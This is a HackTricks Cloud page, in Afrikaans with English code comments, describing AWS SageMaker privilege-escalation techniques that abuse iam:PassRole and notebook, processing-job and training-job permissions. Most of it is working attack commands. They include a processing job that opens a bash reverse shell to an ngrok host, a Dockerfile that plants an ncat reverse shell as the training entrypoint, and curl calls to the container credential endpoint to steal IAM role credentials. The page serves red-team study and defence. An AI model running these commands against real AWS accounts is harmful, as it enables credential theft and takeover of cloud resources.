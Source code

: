 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Begin om 'n notaboek te skep met die IAM Rol wat daaraan gekoppel is:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
Die antwoord moet 'n `NotebookInstanceArn` veld bevat, wat die ARN van die nuut geskepte notaboekinstansie sal bevat. Ons kan dan die `create-presigned-notebook-instance-url` API gebruik om 'n URL te genereer wat ons kan gebruik om toegang te verkry tot die notaboekinstansie sodra dit gereed is:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Navigeer na die URL met die blaaier en klik op \`Open JupyterLab\` in die boonste regterkant, scroll dan af na die “Launcher” oortjie en onder die “Other” afdeling, klik op die “Terminal” knoppie.

Nou is dit moontlik om toegang te verkry tot die metadata geloofsbriewe van die IAM Rol.

**Potensiële Impak:** Privesc na die sagemaker diensrol wat gespesifiseer is.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

As daar Jupyter **notebooks reeds aan die gang is** daarop en jy kan hulle lys met `sagemaker:ListNotebookInstances` (of hulle op enige ander manier ontdek). Jy kan **'n URL vir hulle genereer, toegang tot hulle verkry, en die geloofsbriewe steel soos aangedui in die vorige tegniek**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Potensiële Impak:** Privesc na die sagemaker diensrol wat aangeheg is.

### `sagemaker:CreateProcessingJob,iam:PassRole`

'n Aanvaller met daardie toestemmings kan **sagemaker 'n verwerkingswerk** laat uitvoer met 'n sagemaker rol wat daaraan geheg is. Die aanvaller kan die definisie van die houer aandui wat in 'n **AWS bestuurde ECS rekening instance** uitgevoer sal word, en **die geloofsbriewe van die IAM rol wat aangeheg is** steel.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Potensiële Impak:** Privesc na die sagemaker diensrol gespesifiseer.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

'n Aanvaller met daardie toestemmings sal in staat wees om 'n opleidingswerk te skep, **wat 'n arbitrêre houer** daarop laat loop met 'n **rol aangeheg** daaraan. Daarom sal die aanvaller in staat wees om die geloofsbriewe van die rol te steel.

{% hint style="warning" %}
Hierdie scenario is moeiliker om te benut as die vorige een omdat jy 'n Docker beeld moet genereer wat die rev shell of creds direk na die aanvaller sal stuur (jy kan nie 'n beginopdrag in die konfigurasie van die opleidingswerk aandui nie).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Potensiële Impak:** Privesc na die sagemaker diensrol gespesifiseer.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

'n Aanvaller met daardie toestemmings sal (potensieel) in staat wees om 'n **hyperparameter opleidingswerk** te skep, **'n arbitrêre houer** daarop te laat loop met 'n **rol aangeheg** daaraan.\
_Ek het nie uitgebuit nie weens die gebrek aan tyd, maar dit lyk soortgelyk aan die vorige uitbuitings, voel vry om 'n PR met die uitbuitingsbesonderhede te stuur._

## Verwysings

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
